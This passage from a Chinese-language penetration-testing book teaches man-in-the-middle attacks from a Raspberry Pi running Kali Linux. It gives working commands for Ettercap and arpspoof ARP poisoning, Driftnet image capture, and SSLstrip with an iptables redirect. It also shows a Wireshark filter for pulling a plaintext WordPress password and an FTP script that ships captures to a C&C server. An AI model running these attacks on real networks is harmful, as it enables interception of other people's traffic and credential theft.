

树莓派现在应该放在目标系统和默认网关之间的中间位置，并且可以使用诸如 Wireshark 之类的嗅探软件查看流量。Ettercap 有一个嗅探选项，但不如 Wireshark 等其他工具好，我们将在本章后面介绍。要在 Ettercap 运行时监视 ARP 欺骗攻击，请单击**查看**，然后选择**连接**。

## Ettercap 命令行

Ettercap 还提供了一个命令行版本的软件，它消耗的资源比 GUI 少。您可以使用`apt-get install ettercap-text-only`命令下载这个版本的 Ettercap。

假设您想执行 GUI 示例中涵盖的所有步骤，并攻击与树莓派相同网络上的所有设备。以下命令字符串将快速完成此操作：

```
ettercap –Tqi eth0 –M arp:remote //

```

下面的屏幕截图显示了与 GUI 方法类似的输出：



但是，在本示例中，我们正在攻击**组 1**和**组 2**中的所有主机，这意味着网络上的所有人。您可以看到我们正在监听`eth0`，如命令中指定的那样，并且 Ettercap 已找到四个主机并将它们添加到两个组中。您还会注意到我们无法解密 SSL 流量；但是，这将在本章后面介绍。

您可以使用`urlsnarf –i [网络接口]`命令验证 Ettercap 是否与`dsniff`软件包的`urlsnarf`部分等任何网络监视软件一起工作，如下面的屏幕截图所示：



在攻击进行时，您将在终端窗口中开始看到网络流量，表示正在捕获的内容，如下面的屏幕截图所示：



# Driftnet

用于查看中间人攻击期间捕获的图像的实用程序是一个名为 Driftnet 的程序。有更好的方法来查找更有趣的数据；但是，如果您专注于查看图像，Driftnet 可能会有用。Driftnet 未预装在 Kali Linux ARM 上。您可以使用`apt-get install driftnet`命令下载它。

安装后，使用 driftnet`–i eth0`命令来运行它。这将打开一个新的终端窗口，该窗口将是空白的。任何受害者在中间人攻击期间看到的图像将开始在此窗口中显示。下面的屏幕截图显示了一个主机在 Driftnet 捕获图像时访问[www.cisco.com](http://www.cisco.com)：



# 调整您的网络捕获

在真实的渗透测试练习中，我们发现运行原始的`tcpdump`捕获或使用 Wireshark 等工具会消耗大量的处理能力，有时会导致树莓派崩溃或变得无用。因此，在真实环境中最好避免使用这些工具，除非您调整捕获内容以减少对树莓派的负担。以下是以受控方式使用`tcpdump`捕获网络流量的一些步骤。

Tcpdump 是一个非常有用的工具，了解如何使用该实用程序将有助于您充分利用树莓派上的该工具。以下部分将提供一些调优指针，但不打算成为 tcpdump 教程。

首先要考虑的是如何缩小 tcpdump 的搜索范围。您可以通过几种方式来做到这一点。第一种方法是指定`host`关键字。`host`关键字将查找由主机名或 IP 地址指定的流量。可以通过以下方式完成：

```
tcpdump host www.drchaos.com

```

或者，我们可以按以下方式使用 IP 地址：

```
tcpdump host 8.8.8.8

```

您还可以指定源 IP 地址、目标 IP 地址，或者同时指定源和目标。在以下示例中，我们已经定义了源和目标：

```
Tcpdump src 1.1.1.1 dst 2.2.2.2

```

如果需要，您不必这么具体，可以将搜索限制在源或目标上。

您可能需要查看属于特定网络子网的所有流量。为此，请在`tcpdump`中使用`net`命令。然而，在执行此操作之前，您应该记住一些事情。在繁忙的网络中，您的树莓派很可能无法跟上这些流量的捕获。它不仅受到处理能力的限制，还受到 100 MB 网络接口的限制。如果超出了树莓派的能力，最好的情况是它会丢弃流量，而不是捕获您期望的内容。最坏的情况可能意味着系统崩溃。

以下命令用于查看属于特定网络子网的所有流量：

```
tcpdump net 10.0.1.0/24
tcpdump icmp

```

您可以按照以下示例搜索特定的协议：

```
tcpdump port 80,21

```

尽管它被称为 tcpdump，但您可以指定**传输控制协议**（**TCP**）、**用户数据报协议**（**UDP**）和**互联网控制消息协议**（**ICMP**）协议。

您可以指定要监视的特定端口号。您还可以指定这将是源端口还是目标端口。您可以从以下示例中看到，我们结合了几个选项：

```
tcpdump src port 1099 and udp icmp and src port 20

```

您应该将发现写入一个文件，以便以后进行分析。要将您的发现写入文件，请使用`-w`选项，后面跟上您要保存它们的文件名。最好使用`.cap`作为文件扩展名：

```
tcpdump -s 10994 port 80 -w my_capture_file.cap

```

您可以直接从 tcpdump 中使用`-r`选项读取文件，如以下命令所示：

```
tcpdump -r my_capture_file.cap

```

但是，我们建议您远程传输文件到 FTP、SCP、HTTPS 或任何其他类型的服务器。

# 为将来访问编写 tcpdump 脚本

您可能希望导出网络捕获以避免在本地树莓派上空间不足。以下是将捕获的数据导出到外部源以进行更多资源密集型任务（如破解密码或报告目的）的一些步骤。这些步骤也适用于本书的其他部分，需要导出数据的部分。

在第二章中，*准备树莓派*，我们建议设置一个远程服务器，也称为 C&C 服务器。我们还在本章的先前步骤中提到将捕获的文件传输到 FTP 服务器。关于使用 FTP，重要的是要记住 FTP 本身是不安全的。人们出于各种不同的原因使用 FTP。但是，对于真实的渗透测试练习，至关重要的是通过其他形式的加密来保护 FTP，例如**Internet Protocol Secutiry**（**IPsec**）隧道或**SSH/Secure File Transfer Protocol**（**SFTP**）。IPsec 确保所有数据传输都不会在互联网上发生，也就是说，不会公开给其他人捕获和查看。保护您的 FTP 还可以让您完全控制网络的两端，即客户端和服务器，以及传输介质。

### 注意

您可能会问“为什么要这样做，而不只使用 FTP？”如果您计划捕获敏感信息，保护这些数据是有意义的。这引出了一个问题，为什么首先考虑 FTP？我们在先前的部分中使用 FTP 是因为行业熟悉度和文件传输的自动脚本的可用性。但是，您可以通过寻找更安全的协议来实现相同的结果。

让我们看看如何开发一个简单的 FTP 脚本，以以下方式从远程树莓派提取数据。首先，打开文本编辑器并将文件保存为`.py`扩展名。我们将文件保存为`ftp.py`。

```
import ftplib                             #importing ftp module in python
session = ftplib.FTP('server.IP.address.com','USERNAME','PASSWORD')
file = open('*.cap','rb')                  # file to send
session.storbinary('STOR *.cap', file)     # send the file
file.close()                               # close file and FTP
session.quit()                             # Quit the ftp session
```

接下来，您需要更改文件的权限。您可以通过发出`chmod 777 ftp.py`命令来将其设置为可执行文件。

这是一个非常基本的脚本。您需要指定要传输的文件，用户名，密码和服务器的 IP 地址。

如果您发现经常使用此脚本方法，您可能会希望添加选项，例如自动监视目录以进行捕获，然后使用 FTP 自动上传。您甚至可能想要更改上传目录。

Tcpdump 和从树莓派导出的包含大量捕获数据的文件可能难以查看和组织。处理这些数据的更流行的方法是使用行业标准的基于 GUI 的网络分析器 Wireshark。让我们看看该应用程序的工作原理。

### 注意

我们发现 Wireshark 需要比许多轻量级命令行工具更多的处理能力，有时可能会导致树莓派变得不稳定或崩溃。因此，我们建议您使用 tcpdump 并调整捕获，这是我们刚刚介绍的主要捕获数据的方法。Wireshark 更适合在 C&C 服务器上使用，以查看捕获的数据，而不是直接从树莓派上使用。

## Wireshark

Wireshark 是当今最受欢迎的开源数据包分析程序之一。它可以用于解决网络问题，分析系统之间的通信，并在渗透测试的情况下，一旦突破网络，就可以捕获数据。将 Wireshark 视为具有漂亮图形界面和巧妙数据排序功能的 tcpdump。Wireshark 预装在 Kali Linux ARM 映像上，并可以在 Kali Linux 应用程序下拉菜单的前十工具类别中找到。

### 提示

在实际环境中使用 Wireshark 之前，请在实验室中测试您的 Wireshark 用例。我们发现 Wireshark 有时会在真实练习中导致树莓派崩溃。因此，我们建议您在树莓派上直接使用调整后的 tcpdump 方法，并在远程 C&C 服务器上使用 Wireshark。如果必须使用 Wireshark，请在树莓派上使用 TShark，在 C&C 服务器上使用完整的 Wireshark。

使用 Wireshark 有两种方式。让我们先看看完整的 GUI。

当您启动 Wireshark 时，您会看到一个错误消息，稍后会看到一个警告消息，指出您正在以超级用户，也就是 root 的身份运行 Wireshark。只需点击**OK**即可访问主 GUI。

以下屏幕截图显示了 Wireshark 的 GUI：



在这一点上，我们假设您的树莓派上有流量运行，使用了本章前面介绍的方法，并且现在正在查看实时数据。第一步是通过点击**Interface List**按钮来查看您想要用 Wireshark 检查的接口。这将带来一个窗口，显示所有的接口以及哪些接口正在看到流量。



如果您将树莓派作为两个以太网接口之间的桥接器运行，您需要选择`bridge0`接口作为数据源。如果您正在使用 ARP 欺骗方法来读取数据，意味着您只使用一个接口，您需要选择一个面向网络的端口，比如`eth0`，如前面的屏幕截图所示。一旦您选择了一个接口，点击**Start**按钮，然后点击要监视的接口旁边的复选框。

### 注意

您还可以使用 Wireshark 查看先前捕获的数据，比如**数据包捕获**（**pcap**）文件。当将树莓派放在网络上进行网络捕获并稍后查看所发现的内容时，这是理想的。这种方法会占用内存，因此建议使用实时数据而不是在树莓派上存档大量数据包捕获文件，因为其存储能力有限。一个可能的解决方法是将网络捕获存储并导出到外部 C&C 服务器，以满足渗透测试的目的。

一旦您选择了一个接口，它将带来 Wireshark 实时捕获的页面。您可能会看到大量数据，包括 ARP 欺骗数据包，如果您正在使用 ARP 欺骗方法来通过您的树莓派获取流量，它们会显示为黑色：



Wireshark 的一个受欢迎的功能是能够快速筛选大量日志。您可以在过滤行中输入信息，比如特定主机、数据包类型等，然后快速缩小到感兴趣的特定数据包。让我们通过一个例子攻击来向您展示。

## 捕获 WordPress 密码的例子

在这个例子中，我们将以管理员身份登录到一个 WordPress 网站，然后停止 Wireshark 的实时捕获。这将捕获主机的登录会话，以便攻击者可以查看捕获的密码。要停止 Wireshark 捕获，请点击红色方块。Wireshark 界面可能需要一两分钟才能跟上显示。

在这一点上，我们想要查找 WordPress 登录信息。这可以在 POST 数据包中找到，意味着用户发送给系统的数据，比如用户名和密码。我们可以使用过滤器来过滤流量并锁定我们的目标数据。因此，在这个例子中，我们将使用`ip.src ==`命令来查找目标的 IP 地址，使用`http.request.full_url`命令来查找 http 请求登录信息，然后点击**Apply**来执行它。您可以在之前的屏幕截图中看到命令在绿色过滤区域中，以及过滤后的输出样子。

### 注意

请注意，在我们输入命令字符串后，过滤部分的颜色是绿色的。Wireshark 在您输入文本时会验证文本并提供可能的过滤表达式。如果输出有错误，过滤框的颜色会变成红色。

因此，我们使用以下命令来过滤目标 IP 地址：

```
ip.src == [target IP] and http.request.full_url

```

### 提示

为了避免树莓派崩溃，建议您暂停网络捕获并在输入过滤表达式之前等待一分钟。

一旦应用过滤器，Wireshark 需要一些时间来清除所有不需要的数据。在 Wireshark 处理捕获数据上的过滤器时，您将看到一个进度窗口。

我们可以忽略 GET 数据包，因为这是主机在登录之前加载网站，以及 TCP 数据包，因为它们是 ARP 欺骗数据。要快速查看数据，我们可以单击其中一个选项卡，例如**协议**选项卡，以根据该选项卡的功能按**字母顺序**对数据进行排序。这样做需要几秒钟，并且在计算时间内再次会出现一个进程选项卡。

我们想要的是显示用户向服务器提交信息时显示的 POST 行。如下屏幕截图所示：



要查看原始数据包，我们需要单击此数据包行，右键单击以显示选项，然后选择**跟踪 TCP 字符串**。这将打开一个过程字符串并显示原始登录数据：



在先前显示的原始数据捕获中，我们可以看到许多有用的数据（由于这是一个实时服务器，关键项目已经失真）。要注意的行是包含**log=**显示用户名和**pwd=**显示明文密码的行。

## TShark

TShark 是 Wireshark 的命令行版本。如果您必须从树莓派运行 Wireshark，TShark 是最佳选择。将 TShark 视为捕获数据包的 tcpdump 的替代方案。

要运行 TShark，只需在命令行终端中输入`tshark`，它将选择一个可用的接口。您还可以使用`tshark eth0`手动选择要捕获的接口，以选择`eth0`端口。以下屏幕截图显示了`tshark`进行基本捕获：



您很可能希望将数据捕获到文件中，以便将其导出到您的 C＆C 服务器。您可以使用“tshark –w [文件名].cap”命令指定要保存捕获数据的文件。以下屏幕截图显示了运行捕获并将数据保存到名为`capture.cap`的文件中。我们可以使用*Ctrl* + *C*命令停止捕获后使用`ls`命令显示此文件：



如果您不停止 TShark 捕获，最终会耗尽内存。为了避免这种情况，您可以通过在命令中添加“-c [数字]”来指定要捕获的数据包数量。在我们的示例中，我们可以使用命令“tshark –c 500 –w capture.cap”来在停止之前捕获五百个数据包。这是在执行有针对性的渗透测试时的理想情况，这意味着您可以为捕获指定可用存储空间，将该信息保存到文件中，并使用本书介绍的步骤将其导出到您的 C＆C 服务器。我们通过创建一个脚本来完成了类似的过程，该脚本使用 tcpdump 执行此操作。如果您希望使用替代选项进行数据包捕获，可以调整该脚本以运行 TShark 而不是 tcpdump。

# 通过 SSLstrip 击败 HTTPS

主机系统对 Web 服务器进行中间人攻击的一种防御是 SSL 加密。当您访问诸如在线银行或在线购物等敏感服务时，您通常会遇到这种情况。许多浏览器通过显示一个小锁来展示 HTTPS 已经启用，给最终用户一种安全感。

由于安全研究人员 Moxie Marlinspike 的工作，可以通过 SSLstrip 绕过这一层防御。SSLstrip 通过代理受害者的 HTTPS 请求并使用 HTTP 发送它们来工作。HTTP 流量未加密，容易被窃听。一旦 SSLstrip 强制使用 HTTP 连接，攻击者就可以使用 tcpdump 查看访问 Facebook 等帐户的人的未加密登录凭据。

随后开发了**HTTP 严格传输安全**（**HSTS**）规范来对抗这些攻击；然而，HSTS 的部署速度较慢。此外，一些企业，如在线银行，正在采用不托管其网站的 HTTP 版本的政策，这将在进行此攻击时显示“页面未找到”的消息。不幸的是，许多其他企业宁愿托管其网站的 HTTP 和 HTTPS 版本，以避免看起来像他们的网站已关闭，而不考虑使用 SSLstrip 进行中间人攻击的风险。因此，今天仍然经常看到 SSLstrip 攻击。

让我们看一个主机和互联网之间的 SSLstrip 攻击，他/她试图访问自己的 Facebook 帐户。以下屏幕截图显示了用户和 Facebook 之间的通信应该如何进行：


当涉及中间人 SSLstrip 攻击时，SSL 加密会话被阻止，HTTP 响应被发送回受害者。当他们发送信息时，他们不知道信息是明文的，并且可以使用网络嗅探器轻松查看。

以下图片显示了 SSLstrip 拦截的 SSL 连接：


使用 Kali Linux 的 Raspberry Pi 的用例是将攻击系统放在网络上并扫描要攻击的系统。使用本节中的步骤，攻击者可以对内部用户执行中间人 SSLstrip 攻击，以挖掘用户密码。

## 发动 SSLstrip 攻击

SSLstrip 攻击是通过以下步骤启动的：

1.  Kali Linux ARM 镜像不带有安装的 SSLstrip，因此在我们做任何事情之前，我们必须下载它。发出`apt-get install sslstrip`命令来下载实用程序。

1.  安装 SSLstrip 后，我们需要做的第一件事是启动 ARP 欺骗。这在本章的前面已经介绍过，因此我们将快速介绍 ARP 欺骗过程。总结这些步骤，执行以下操作：

+   使用`echo 1 > /proc/sys/net/ipv4/ip_forward`启用 IP 转发

+   使用`netstat -nr`识别默认网关和子网掩码

+   使用`nmap -Rsn [网络/子网掩码]`使用`nmap`标识网络上的目标

+   使用`arpspoof -i eth0 -t [目标 IP] -r [默认网关]`启动 ARP 缓存中毒

+   这将显示 ARP 缓存中毒的流量。保持此窗口打开

一旦运行，您应该开始看到 ARP 欺骗流量，如下面的屏幕截图所示：



1.  一旦设置了 ARP 缓存中毒，打开一个新的终端窗口，使用`iptables`设置端口重定向。这使得攻击者能够捕获发送到 TCP 80 上的 HTTP 服务器的流量，并将该流量重定向到 SSLstrip 监听端口。攻击者可以使用任何适用的值。例如，我们将使用以下命令使用`8080`来显示这一点。

```
iptables –t nat –A PREROUTING –p tcp --destination-port 80 -j REDIRECT --to-port 8080

```

所选的重定向目的地也必须用于设置 SSLstrip 的监听端口。

以下屏幕截图显示了上述命令的启动：



### 注意

禁用此命令中的`PREROUTING`规则，将`-A`替换为`-D`以清除所使用的所有表规则。

+   要刷新，请使用命令`iptables -t nat -F`

+   要验证，请使用命令`iptables -t nat -L`

### 提示

ARP 欺骗有许多配置选项。您可以使用`man tables`命令查看其他选项。

1.  发动 SSLstrip 攻击。在本例中，我们将使用 TCP `8080`作为监听端口。因此，命令将是`sslstrip -l 8080`，如下面的屏幕截图所示：

要查看攻击结果，请打开另一个终端窗口并键入`tail -n 50 -f sslstrip.log`。

要测试这种攻击，请在受害者系统上打开一个网页浏览器，并访问需要使用 SSL 加密的系统，比如在线邮件。然后返回到显示`sslstrip.log`文件的终端窗口，你应该能看到清晰文本中的用户名和密码，如下面的屏幕截图所示。这些数据可以打包成一个文本文件，以便攻击者可以在以后的时间检索它。



### 注意

这种攻击仅限于局域网。

# 摘要

在本章中，我们开始使用树莓派和 Kali Linux 进行渗透测试。我们首先介绍了如何使用 nmap 来评估网络设备、端口和其他可能被利用的数据点。接下来，我们看了如何破解无线网络，以便我们可以访问网络并运行 nmap 或其他扫描工具集。

一旦我们对局域网和无线网络进行了基本的网络侦察，我们就看了一些可以在网络上启动的攻击技术。我们首先介绍了进行中间人攻击的方法，目的是通过树莓派获取数据。后来，我们介绍了如何在监视受信任源和受害者之间的流量时突破 SSL 加密。我们还介绍了如何调整数据包捕获并导出数据，以避免树莓派崩溃。

下一章将介绍如何利用树莓派来破坏系统和捕获敏感数据的高级战术。
